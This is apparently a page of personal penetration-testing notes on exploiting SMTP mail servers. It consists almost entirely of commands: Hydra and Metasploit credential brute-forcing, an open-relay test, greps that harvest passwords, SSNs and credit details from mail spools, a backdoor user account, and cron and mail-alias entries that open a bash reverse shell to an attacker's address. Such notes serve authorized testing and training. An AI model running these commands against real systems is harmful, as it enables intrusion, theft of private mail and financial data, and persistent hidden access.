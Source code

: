 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMTP/Exploitation
---
```


# Exploitation

<!-- Brute Force {{{-->
## Brute Force

Brute force SMTP authentication credentials using various tools

<!-- Hydra {{{-->
### Hydra

Brute force with [[Hydra]] with user

```sh
hydra -l user@target.com -P <passwords.txt> smtp://<target.com>:587
```

Brute force with [[Hydra]] with username list

```sh
hydra -L <usernames.txt> -P <passwords.txt> smtp://<target.com>:587
```
<!-- }}} -->

### Metasploit

Brute force with [[Metasploit]]

<!-- Example {{{-->
> [!example]-
>
> ```sh
> search smtp
> ```
>
> ```sh
> use auxiliary/scanner/smtp/smtp_enum
> ```
>
> ```sh
> set RHOSTS <target>
> ```
>
> ```sh
> run
> ```
<!-- }}} -->

___

<!-- }}} -->

<!-- Open Relay Attack {{{-->
## Open Relay Attack

> [!todo]

Test SMTP server for open relay vulnerabilities
[[General#Open Relay Configuration|]]
that allow unauthorized email forwarding

<!-- Example {{{-->
> [!example]-
>
> External to external
>
> ```sh
> telnet <target> 25
> ```
> ```
> MAIL FROM:<external1@example.com>
> RCPT TO:<external2@anotherdomain.com>
> DATA
> Test
> .
> ```
<!-- }}} -->

- [HackTricks - Open Relay](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smtp/index.html#open-relay)

- [Hackviser](https://hackviser.com/tactics/pentesting/services/smtp#open-relay-testing)

___

<!-- }}} -->

<!-- Post-Exploitation {{{-->
# Post-Exploitation

<!-- Data Exfiltration {{{-->
## Data Exfiltration

Search for sensitive keywords

```sh
grep -r -i "password\|secret\|confidential" /var/mail/
```

Extract attachments

```sh
find /var/mail/ -name "*.pdf" -o -name "*.doc" -o -name "*.xls"
```

Extract e-mail addresses

```sh
grep -Eiorh '\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b' /var/mail/*
```

Extract financial information

```sh
grep -r -i "account\|routing\|ssn\|credit" /var/mail/
```

<!-- Email Harvesting {{{-->
### Email Harvesting

Read mail spool

```sh
cat /var/mail/<username>
```

```sh
cat /var/spool/mail/<username>
```

Maildir Format

```sh
ls -la /home/username/Maildir/cur/
```

```sh
cat /home/username/Maildir/cur/*
```

<!-- }}} -->

<!-- Persistence {{{-->
## Persistence

Add backdoor user to mail system

```sh
useradd -m -s /bin/bash <user>
```
```sh
echo "<user>:<password>" | chpasswd
```

Create cron job

```sh
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1'" | crontab -
```

Modify mail aliases

```sh
echo "backdoor: |/bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1'" >> /etc/aliases
newaliases
```

<!-- }}} -->

___

<!-- }}} -->
